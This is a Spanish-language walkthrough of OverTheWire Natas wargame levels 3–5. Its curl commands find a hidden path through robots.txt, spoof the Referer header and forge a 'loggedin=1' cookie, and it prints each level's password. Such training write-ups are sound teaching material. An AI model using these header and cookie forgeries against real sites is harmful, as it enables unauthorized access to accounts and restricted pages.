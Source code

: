Otro "no hay nada en esta web" en el navegador
```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas3.natas.labs.overthewire.org" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
<!-- No more information leaks!! Not even Google will find it this time... -->
```
Nos dice que no va a haber mas crendeciales filtradas, y que ni siquiera Google nos encontrará. Eso ultimo es una pista hacia la ruta "robots.txt"
la cual evita que Google indexe/encuentre ciertas rutas sensibles.
```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas3.natas.labs.overthewire.org/robots.txt" -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 
User-agent: *
Disallow: /s3cr3t/
```
Dicho "/s3cr3t" nos lleva a otro users.txt con las credenciales

## Natas4

(Natas4)[http://natas4.natas.labs.overthewire.org]
*Restriccion: referrer limitado*

Este nivel nos dice que solo acepta a gente que venga desde ```http://natas5.natas.labs.overthewire.org/```, es decir que desde esa página hayan pinchado en un link para venir a la actual. Esto se llama referrer. Con curl se puede esècificar dicho referrer con "-e"
```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas4.natas.labs.overthewire.org" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ \
> -e http://natas5.natas.labs.overthewire.org/
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
## Natas5

(Natas5)[http://natas5.natas.labs.overthewire.org]
*Vulnerabilidad: cookie forge o creacion de cookie*

Aqui te dice que simplemente no estas logueado, cuando se habla de loguins hay que pensar en cookies, ya que estas son las que arrastran dicho loguin.
```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas5.natas.labs.overthewire.org" -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -I
Set-Cookie: loggedin=0
```
Hay una cookie llamada logguedin que se iguala a 0 por defecto, haciendo que salga el mensaje de que no estas logueado. La cookie se puede colocar 
con curl

```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas5.natas.labs.overthewire.org" -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq  --cookie "loggedin=1"
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
```
## Natas6
